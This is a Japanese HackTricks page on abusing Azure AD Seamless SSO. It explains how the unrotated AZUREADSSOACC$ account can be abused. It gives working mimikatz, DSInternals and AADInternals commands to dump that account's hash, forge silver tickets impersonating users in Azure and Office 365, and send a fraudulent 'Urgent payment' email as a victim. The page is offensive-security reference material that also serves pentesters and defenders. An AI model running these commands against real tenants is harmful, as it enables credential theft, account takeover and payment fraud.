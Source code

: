 # Az - シームレスSSO

<details>

<summary><strong>htARTE（HackTricks AWS Red Team Expert）でAWSハッキングをゼロからヒーローまで学ぶ</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>！</strong></a></summary>

HackTricksをサポートする他の方法：

- **HackTricksで企業を宣伝したい**または**HackTricksをPDFでダウンロードしたい場合は**、[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください！
- [**公式PEASS＆HackTricksスワッグ**](https://peass.creator-spring.com)を入手する
- [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFT**](https://opensea.io/collection/the-peass-family)コレクションを見つける
- 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**telegramグループ**](https://t.me/peass)に**参加**するか、**Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)を**フォロー**する
- **ハッキングトリックを共有するために、**[**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出する

</details>

## 基本情報

[公式ドキュメントから：](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/how-to-connect-sso) Azure Active Directory Seamless Single Sign-On（Azure AD Seamless SSO）は、**ユーザーが企業ネットワークに接続された企業デバイス上にいるときに自動的にサインイン**します。有効になっている場合、**ユーザーはAzure ADにサインインする際にパスワードを入力する必要がなく**、通常はユーザー名さえ入力する必要がありません。この機能により、ユーザーはオンプレミスの追加コンポーネントなしでクラウドベースのアプリケーションに簡単にアクセスできます。

<figure><img src="../../../../.gitbook/assets/image (7) (1) (2) (1).png" alt=""><figcaption></figcaption></figure>

基本的に、Azure AD Seamless SSOは、**オンプレミスドメインに参加したPC上にいるユーザーをサインイン**します。

これは[**PHS（Password Hash Sync）**](phs-password-hash-sync.md)および[**PTA（Pass-through Authentication）**](pta-pass-through-authentication.md)の両方でサポートされています。

デスクトップSSOは、認証に**Kerberos**を使用しています。構成されると、Azure AD ConnectはオンプレミスADに**AZUREADSSOACC`$`**というコンピューターアカウントを作成します。`AZUREADSSOACC$`アカウントのパスワードは構成中に**平文でAzure ADに送信**されます。

**Kerberosチケット**はパスワードのNTHash（MD4）を使用して**暗号化**され、Azure ADは送信されたパスワードを使用してチケットを復号化します。

**Azure AD**は、Kerberos **チケット**を受け入れる**エンドポイント**（https://autologon.microsoftazuread-sso.com）を公開しています。ドメイン参加済みマシンのブラウザは、このエンドポイントにSSOのためにチケットを転送します。

### オンプレミス -> クラウド

ユーザー**`AZUREADSSOACC$`のパスワードは変更されません**。したがって、ドメイン管理者はこのアカウントのハッシュを妨害し、それを使用して**任意のオンプレユーザーを同期してAzureに接続するためのシルバーチケットを作成**することができます。
```powershell
# Dump hash using mimikatz
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\azureadssoacc$ /domain:domain.local /dc:dc.domain.local"'
mimikatz.exe "lsadump::dcsync /user:AZUREADSSOACC$" exit

# Dump hash using https://github.com/MichaelGrafnetter/DSInternals
Get-ADReplAccount -SamAccountName 'AZUREADSSOACC$' -Domain contoso -Server lon-dc1.contoso.local

# Dump using ntdsutil and DSInternals
## Dump NTDS.dit
ntdsutil "ac i ntds" "ifm” "create full C:\temp" q q
## Extract password
Install-Module DSInternals
Import-Module DSInternals
$key = Get-BootKey -SystemHivePath 'C:\temp\registry\SYSTEM'
(Get-ADDBAccount -SamAccountName 'AZUREADSSOACC$' -DBPath 'C:\temp\Active Directory\ntds.dit' -BootKey $key).NTHash | Format-Hexos
```
ハッシュを使用して、今後は**シルバーチケットを生成**できます:
```powershell
# Get users and SIDs
Get-AzureADUser | Select UserPrincipalName,OnPremisesSecurityIdentifier

# Create a silver ticket to connect to Azure with mimikatz
Invoke-Mimikatz -Command '"kerberos::golden /user:onpremadmin /sid:S-1-5-21-123456789-1234567890-123456789 /id:1105 /domain:domain.local /rc4:<azureadssoacc hash> /target:aadg.windows.net.nsatc.net /service:HTTP /ptt"'
mimikatz.exe "kerberos::golden /user:elrond /sid:S-1-5-21-2121516926-2695913149-3163778339 /id:1234 /domain:contoso.local /rc4:12349e088b2c13d93833d0ce947676dd /target:aadg.windows.net.nsatc.net /service:HTTP /ptt" exit

# Create silver ticket with AADInternal to access Exchange Online
$kerberos=New-AADIntKerberosTicket -SidString "S-1-5-21-854168551-3279074086-2022502410-1104" -Hash "097AB3CBED7B9DD6FE6C992024BC38F4"
$at=Get-AADIntAccessTokenForEXO -KerberosTicket $kerberos -Domain company.com
## Send email
Send-AADIntOutlookMessage -AccessToken $at -Recipient "someone@company.com" -Subject "Urgent payment" -Message "<h1>Urgent!</h1><br>The following bill should be paid asap."
```
1. **ブラウザの起動:** Mozilla Firefoxを起動します。
2. **ブラウザの設定:**
- **`about:config`** に移動します。
- [network.negotiate-auth.trusted-uris](https://github.com/mozilla/policy-templates/blob/master/README.md#authentication) の設定を指定された[値](https://docs.microsoft.com/en-us/azure/active-directory/connect/active-directory-aadconnect-sso#ensuring-clients-sign-in-automatically)に設定します:
- `https://aadg.windows.net.nsatc.net`
- `https://autologon.microsoftazuread-sso.com`
3. **Webアプリケーションへのアクセス:**
- 組織のAADドメインと統合されたWebアプリケーションにアクセスします。一般的な例としては[Office 365](https://portal.office.com/)があります。
4. **認証プロセス:**
- ログオン画面で、ユーザー名を入力し、パスワード欄は空白のままにします。
- 続行するには、TABキーまたはENTERキーを押します。

{% hint style="success" %}
これはMFAが有効な場合はバイパスされません
{% endhint %}

#### ~~クラウド専用ユーザー向けのKerberosチケットの作成~~ <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

Active Directory管理者がAzure AD Connectにアクセスできる場合、**任意のクラウドユーザーにSIDを設定**できます。これにより、クラウド専用ユーザー向けにもKerberos **チケットを作成**できます。唯一の要件は、SIDが適切な[SID](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2003/cc778824\(v=ws.10\))であることです。

{% hint style="danger" %}
クラウド専用の管理者ユーザーのSIDの変更は、現在**Microsoftによってブロックされています**。\
詳細については、[https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)を確認してください。
{% endhint %}

### オンプレミス -> クラウド via リソースベースの制約付き委任 <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

このアカウントが含まれるコンテナまたはOU内のコンピューターアカウント（`AZUREADSSOACC$`）を管理できる人は、そのアカウント上で**リソースベースの制約付き委任を構成してアクセス**できます。

<figure><img src="../../../../.gitbook/assets/image (125).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (126).png" alt=""><figcaption></figcaption></figure>

## 参考文献

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso)
* [https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/](https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
* [TR19: I'm in your cloud, reading everyone's emails - hacking Azure AD via Active Directory](https://www.youtube.com/watch?v=JEIR5oGCwdg)

<details>

<summary><strong>htARTE（HackTricks AWS Red Team Expert）でAWSハッキングをゼロからヒーローまで学ぶ</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>こちら</strong></a><strong>!</strong></summary>

HackTricksをサポートする他の方法:

* **HackTricksで企業を宣伝したい**、または**HackTricksをPDFでダウンロードしたい**場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS＆HackTricksのグッズ**](https://peass.creator-spring.com)を入手してください
* 独占的な[NFTs](https://opensea.io/collection/the-peass-family)コレクションである[**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**telegramグループ**](https://t.me/peass)に**参加**するか、**Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)を**フォロー**してください。
* **HackTricks**と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks)のGitHubリポジトリにPRを提出して、あなたのハッキングトリックを共有してください。

</details>
